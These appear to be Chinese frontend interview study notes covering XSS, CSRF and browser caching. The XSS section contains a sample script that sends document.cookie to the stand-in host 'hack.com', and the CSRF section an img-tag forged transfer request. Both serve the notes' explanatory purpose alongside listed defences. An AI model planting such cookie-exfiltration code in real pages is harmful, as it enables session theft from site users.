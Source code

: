 #### location.hash

没怎么了解..

#### postMessage

html5新api

## xss和csrf攻击是什么，怎么预防

### xss跨站脚本攻击

其实就是`html`注入，恶意`html/js`代码从数据库读取后没有做任何处理直接就显示在了网页上。

```javascript
// 例子一: 显示弹窗
<script>alert('hello')</script>

// 例子二: 盗取cookie
var i = new Image()
i.src = 'http://hack.com?cookie=' + document.cookie
```

**防范**

富文本 通过`v-html`显示的，要先过滤转义处理

- 前端: 富文本编辑器中，用户输入的内容都做转义处理(<>/&' ")，富文本的标签做过滤处理，过滤标签(比如script标签，style标签)，过滤属性(width, style, onClick )
- 后端: 使用xss过滤库，过滤标签和属性，不做转义处理

### csrf跨站请求伪造

比如你登录A网站，有了cookie，再访问钓鱼网站，钓鱼网站里面请求A网站，这样就会自动把你的cookie带过去了

```javascript
<img src="http://A.com/tansferMoney/500" />
```

**防范**

- 验证`HTTP refer`头
- 验证码
- 使用`token`机制

## 浏览器缓存机制

### 缓存类型

**强缓存**

不会向服务器发送请求，直接从浏览器中读取缓存。状态码是200

- `expires`(http1.0)
  - 值为GMT表示的过期时间
  - 如果再次请求的时间在过期时间以内，就使用强缓存
- `cache-control`(http 1.1) 优先级更高
  - 值为max-age=秒数
  - 如果再次请求的时间和上次请求时间差小于秒数，则使用强缓存
